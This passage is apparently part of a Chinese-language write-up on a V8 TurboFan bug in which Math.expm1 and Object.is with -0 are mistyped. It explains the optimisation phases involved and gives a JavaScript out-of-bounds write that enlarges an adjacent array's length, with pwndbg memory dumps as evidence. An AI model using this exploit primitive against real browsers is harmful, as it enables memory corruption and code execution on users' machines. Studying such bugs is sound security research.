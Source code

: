 这导致后续漏洞无法利用了，因为false节点会变成0；该替换是发生在loadelimination阶段的ConstantFoldingReducer里

经过调试发现，在loadelimination阶段的TypeNarrowingReducer里，samevalue节点的输入1，也就是LoadField类型被推断为-0而不是Number，导致后面samevalue直接被替换为false，因为`Type::PlainNumber() U Type::NaN()`不包含-0；

而在换成了foo("0")之后，turbofan其实编译了两遍foo函数，第一次生成的也是NumberExpm1节点，但是由于我们是传入的参数为“0”，是一个字符串，所以第一次被优化的foo函数会被deopt，第二次turbofan编译foo函数的时候，它知道了参数不一定是Number，所以生成的就是JSCall节点（builtin的Math.exmp1函数可以接受任意类型的参数）

但是还有个疑问就是不知道为啥在第二次编译foo后，与samevalue节点相连的LoadField节点在TypeNarrowingReducer类型就被推断为Number了

## 漏洞利用

前面我们可以越界读了，同理我们也可以越界写：

```javascript
function foo(x) {
    let a = [0.1, 0.2, 0.3, 0.4];
    let b = [1.1,2.2,3.3,4.4];
    let c = new LeakArrayBuffer(0x3000);
    let o = {mz: -0};
    let idx = Object.is(Math.expm1(x), o.mz);
    a[idx*13] = 8.691694759794e-311; // 0x1000 << 32 as double
    oob_arr = b;
    target_buffer = c;
    return idx*32;
}

class LeakArrayBuffer extends ArrayBuffer {
    constructor(size){
        super(size);
        this.slot = 0xb33f;
    }
}

var oob_arr;
var target_buffer;

foo(0);
for(var i = 0;i < 30000;i++)
    foo("0");

var res = foo(-0);
console.log(oob_arr.length);

%DebugPrint(oob_arr);
%DebugPrint(target_buffer);
%SystemBreak();
```

gdb中：

```cpp
4096
0x1f707ef1f741 <JSArray[4096]>
0x1f707ef1f761 <ArrayBuffer map = 0x3094f388c7f1>

pwndbg> telescope 0x1f707ef1f740 30
00:0000│  0x1f707ef1f740 —▸ 0x3094f3882931 ◂— 0x4000011a3776822
01:0008│  0x1f707ef1f748 —▸ 0x11a377682d29 ◂— 0x11a3776828
02:0010│  0x1f707ef1f750 —▸ 0x1f707ef1f711 ◂— 0x11a3776835
03:0018│  0x1f707ef1f758 ◂— 0x100000000000
04:0020│  0x1f707ef1f760 —▸ 0x3094f388c7f1 ◂— 0x9000011a3776822
05:0028│  0x1f707ef1f768 —▸ 0x11a377682d29 ◂— 0x11a3776828
06:0030│  0x1f707ef1f770 —▸ 0x11a377682d29 ◂— 0x11a3776828
07:0038│  0x1f707ef1f778 ◂— 0x300000000000
08:0040│  0x1f707ef1f780 —▸ 0x55a56e4601a0 ◂— 0x0
09:0048│  0x1f707ef1f788 ◂— 0x4
```
